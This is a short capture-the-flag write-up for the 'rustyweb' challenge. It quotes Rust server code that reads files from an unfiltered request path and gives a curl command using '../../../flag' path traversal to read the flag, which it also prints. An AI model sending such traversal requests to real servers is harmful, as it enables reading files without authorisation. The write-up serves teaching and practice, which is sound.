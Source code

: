 # rustyweb
<p align="center">
  <img src="Attachments/Description.png" />
</p>

## FLAG:
`GPNCTF{s33_rust_n0_buGs_1ktx}`

## Solution
The challenge provides a [zip](Attachments/PixelPerfect.tar.gz) containing the web server source code. 

Particular attention should be given to the code contained in the file called *server.rs* where the possibility of carrying out path traversal through the following lines of code is deduced:

```rust
let requested_content = fs::read_to_string(format!(
        "{ABSOLUTE_STATIC_CONTENT_PATH}/{}",
        uri.get().clone().unwrap()
    ));
```

The code shows the possibility of carrying out **path traversal** since no type of filtering of what is requested is done.

So we can request the flag through the following command:

```bash
curl --path-as-is https://[istance-spawned-after-pow]-rustyweb-2.chals.kitctf.de/../../../flag
```